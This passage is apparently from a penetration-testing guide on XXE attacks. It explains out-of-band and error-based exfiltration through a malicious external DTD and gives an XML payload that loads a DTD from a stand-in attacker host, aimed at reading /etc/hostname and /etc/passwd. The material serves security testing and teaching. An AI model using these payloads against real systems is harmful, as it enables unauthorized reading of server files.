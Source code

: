 This payload defines an XML parameter entity `%xxe` and incorporates it within the DTD. When processed by an XML parser, this payload fetches the external DTD from the attacker's server. The parser then interprets the DTD inline, executing the steps outlined in the malicious DTD and leading to the exfiltration of the `/etc/hostname` file to the attacker's server.

### Error Based(External DTD)

**In this case we are going to make the server loads a malicious DTD that will show the content of a file inside an error message (this is only valid if you can see error messages).** [**Example from here.**](https://portswigger.net/web-security/xxe/blind)

An XML parsing error message, revealing the contents of the `/etc/passwd` file, can be triggered using a malicious external Document Type Definition (DTD). This is accomplished through the following steps:

1. An XML parameter entity named `file` is defined, which contains the contents of the `/etc/passwd` file.
2. An XML parameter entity named `eval` is defined, incorporating a dynamic declaration for another XML parameter entity named `error`. This `error` entity, when evaluated, attempts to load a nonexistent file, incorporating the contents of the `file` entity as its name.
3. The `eval` entity is invoked, leading to the dynamic declaration of the `error` entity.
4. Invocation of the `error` entity results in an attempt to load a nonexistent file, producing an error message that includes the contents of the `/etc/passwd` file as part of the file name.

The malicious external DTD can be invoked with the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

Upon execution, the web server's response should include an error message displaying the contents of the `/etc/passwd` file.

![](<../images/image (809).png>)

_**Please notice that external DTD allows us to include one entity inside the second `eval`), but it is prohibited in the internal DTD. Therefore, you can't force an error without using an external DTD (usually).**_

### **Error Based (system DTD)**
